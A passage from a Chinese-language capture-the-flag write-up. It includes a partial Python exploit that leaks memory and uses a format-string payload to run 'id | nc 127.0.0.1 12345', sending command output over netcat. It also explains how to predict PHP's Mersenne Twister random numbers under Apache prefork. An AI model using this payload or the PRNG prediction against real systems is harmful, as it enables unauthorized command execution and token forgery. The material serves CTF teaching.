 ```
    }
    r = requests.get(URL+'?'+urlencode(payload))
    l = r.headers['*** stack smashing detected ***']
    l = l.strip(' terminated')
    l = l.ljust(8, '\x00')
    try:
        return unpack('Q', l)
    except:
        return l

def e(cmd, pwd):
    payload = {
        'username': cmd, 
        'password': pwd, 
        'job': '\x48\x10\x60', 
        'action': '%198x%15$hhn'
    }
    print urlencode(payload)
    r = requests.get(URL+'?'+urlencode(payload))



if __name__ == '__main__':

    pwd = leak(0x601090)
    print 'pwd @ %s' % pwd

    e('id | nc 127.0.0.1 12345',pwd=pwd)

```

> [https://gist.github.com/orangetw/583a73f58d49b1a3fc14](https://gist.github.com/orangetw/583a73f58d49b1a3fc14)

0x03 300 Giraffe's Coffee (16 隊解)
=================================

* * *

> [https://gist.github.com/orangetw/4a412fb0d49cad0c4ea3](https://gist.github.com/orangetw/4a412fb0d49cad0c4ea3)

也是代碼分析的題目

核心的概念是 PHP 中 PRNG 的預測  
由於電腦很難做到真正的 "隨機"，所以現在大部分隨機樹的產生都基於 PRNG 在 PHP 中 PRNG 的實現是變形的`Mersenne Twister`演算法

在沒有提供 seed 的下`php_mt_rand`會拿當前 pid 以及時間做一些運算當成種子  
而這個 seed 是 32-bits 長的，所以是可破解的

有些人會使用現成的工具來解，但會發現失敗，無法主確的預測 PRNG 是因為當 PHP 在 Apache 下時是使用 prefork 的方式去執行  
所以每次的連線都是從已經 fork 好的 process 中挑一個去給你使用  
所以無法確定當前的 process PRNG 中 STATE 的狀態是否為第一次  
以及每次連線上的 process 也不一定相同所以 STATE 狀態更無法預測  
(現成工具只會算 seed 後的第一次來比對)
